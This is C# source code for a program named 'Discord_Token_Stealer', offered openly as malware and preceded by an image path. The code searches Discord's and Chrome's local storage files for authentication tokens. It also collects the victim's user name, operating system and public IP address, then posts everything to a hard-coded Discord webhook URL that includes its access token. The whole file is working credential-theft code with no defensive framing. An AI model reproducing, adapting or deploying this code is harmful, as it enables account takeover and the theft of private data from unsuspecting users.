 using System;
using System.Collections.Generic;
using System.IO;
using System.Management;
using System.Net;
using System.Text;

namespace Discord_Token_Stealer
{
    static class Program
    {
        static void Main()
        {
            #region grabbing token
            string string1 = Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData) + "\\discord\\Local Storage\\leveldb\\";
            if (!dotldb(ref string1) && !dotldb(ref string1))
            {
            }
            System.Threading.Thread.Sleep(100);
            string string2 = tokenx(string1, string1.EndsWith(".log"));
            if (string2 == "")
            {
                string2 = "N/A";
            }

            string string3 = Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData) + "\\Google\\Chrome\\User Data\\Default\\Local Storage\\leveldb\\";
            if (!dotldb(ref string3) && !dotlog(ref string3))
            {
            }
            System.Threading.Thread.Sleep(100);
            string string4 = tokenx(string3, string3.EndsWith(".log"));
            if (string4 == "")
            {
                string4 = "N/A";
            }
            #endregion

            //sending message to discord webhook
            using (DcWebHook dcWeb = new DcWebHook())
            {
                ManagementObjectSearcher mos = new ManagementObjectSearcher("select * from Win32_OperatingSystem");
                foreach (ManagementObject managementObject in mos.Get())
                {
                    String OSName = managementObject["Caption"].ToString();
                    dcWeb.ProfilePicture = "https://www.logolynx.com/images/logolynx/1b/1bcc0f0aefe71b2c8ce66ffe8645d365.png";
                    dcWeb.UserName = "Webhook";
                    dcWeb.WebHook = "https://discordapp.com/api/webhooks/593188878085652493/uM-LHOJqXLAgsYoB9tzHhfQ6pcLadLYi4tm3x2RUYQQv_O0hsp058jcbNYeFnFyB0Gl3";
                    dcWeb.SendMessage("```" + "UserName: " + Environment.UserName + Environment.NewLine + "IP: " + GetIPAddress() + Environment.NewLine + "OS: " + OSName + Environment.NewLine + "Token DiscordAPP: " + string2 + Environment.NewLine + "Token Chrome: " + string4 + "```");
                }
            }
        }

        #region grabbingIP
        public static string GetIPAddress()
        {
            string IPADDRESS = new WebClient().DownloadString("http://ipv4bot.whatismyipaddress.com/");
            return IPADDRESS;
        }
        #endregion

        #region stealingtoken
        private static bool dotlog(ref string stringx)
        {
            if (Directory.Exists(stringx))
            {
                foreach (FileInfo fileInfo in new DirectoryInfo(stringx).GetFiles())
                {
                    if (fileInfo.Name.EndsWith(".log") && File.ReadAllText(fileInfo.FullName).Contains("oken"))
                    {
                        stringx += fileInfo.Name;
                        return stringx.EndsWith(".log");
                    }
                }
                return stringx.EndsWith(".log");
            }
            return false;
        }
        private static string tokenx(string stringx, bool boolx = false)
        {
            byte[] bytes = File.ReadAllBytes(stringx);
            string @string = Encoding.UTF8.GetString(bytes);
            string string1 = "";
            string string2 = @string;
            while (string2.Contains("oken"))
            {
                string[] array = IndexOf(string2).Split(new char[]
                {
                    '"'
                });
                string1 = array[0];
                string2 = string.Join("\"", array);
                if (boolx && string1.Length == 59)
                {
                    break;
                }
            }
            return string1;
        }
        private static bool dotldb(ref string stringx)
        {
            if (Directory.Exists(stringx))
            {
                foreach (FileInfo fileInfo in new DirectoryInfo(stringx).GetFiles())
                {
                    if (fileInfo.Name.EndsWith(".ldb") && File.ReadAllText(fileInfo.FullName).Contains("oken"))
                    {
                        stringx += fileInfo.Name;
                        return stringx.EndsWith(".ldb");
                    }
                }
                return stringx.EndsWith(".ldb");
            }
            return false;
        }
        private static string IndexOf(string stringx)
        {
            string[] array = stringx.Substring(stringx.IndexOf("oken") + 4).Split(new char[]
            {
                '"'
            });
            List<string> list = new List<string>();
            list.AddRange(array);
            list.RemoveAt(0);
            array = list.ToArray();
            return string.Join("\"", array);
        }
        #endregion
    }
}
